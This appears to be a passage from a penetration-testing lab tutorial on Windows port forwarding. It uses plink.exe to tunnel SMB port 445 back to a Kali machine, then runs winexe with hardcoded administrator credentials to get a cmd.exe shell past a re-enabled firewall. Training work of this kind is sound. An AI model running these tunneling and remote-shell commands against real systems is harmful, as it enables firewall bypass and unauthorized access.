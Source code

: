 1.First, test that we can still login remotely via winexe:

winexe -U 'admin%password123'
//192.168.1.22 cmd.exe


2.Using an administrator command prompt, re-enable the firewall:
> netsh advfirewall set allprofiles state on


3.Confirm that the winexe command now fails.

4.Copy the plink.exe file across to Windows, and then kill the SMB
Server on Kali (if you are using it).

5.Make sure that the SSH server on Kali is running and accepting root logins.
Check that the “PermitRootLogin yes” option is uncommented in /etc/ssh/sshd_config.

Restart the SSH service if necessary.

6.On Windows, use plink.exe to forward port 445 on Kali to the Windows port 445:

> plink.exe root@192.168.1.11 -R 445:127.0.0.1:445


7.On Kali, modify the winexe command to point to localhost (or 127.0.0.1) instead,
and execute it to get a shell via the port forward:

winexe -U 'admin%password123' //localhost cmd.exe

